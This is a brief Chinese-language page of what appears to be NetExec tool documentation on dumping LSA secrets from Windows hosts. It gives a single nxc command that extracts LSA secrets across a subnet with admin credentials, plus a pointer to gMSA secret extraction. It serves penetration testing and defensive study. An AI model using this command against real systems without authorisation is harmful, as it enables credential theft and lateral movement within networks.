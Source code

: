# 导出 LSA

### 使用 secretsdump.py 中的方法导出 LSA 密钥

{% hint style="danger" %}
需要目标域控制器上的域管理员或本地管理员权限
{% endhint %}

```
#~ nxc smb 192.168.1.0/24 -u UserName -p 'PASSWORDHERE' --lsa
```

如果你找到一个以 _SC\_GMSA_{84A78B8C-56EE-465b-8496-FFB35A1B52A7} 开头的账户，你可以获取背后的账户：

{% content-ref url="../../ldap-protocol/extract-gmsa-secrets.md" %}
[extract-gmsa-secrets.md](../../ldap-protocol/extract-gmsa-secrets.md)
{% endcontent-ref %}
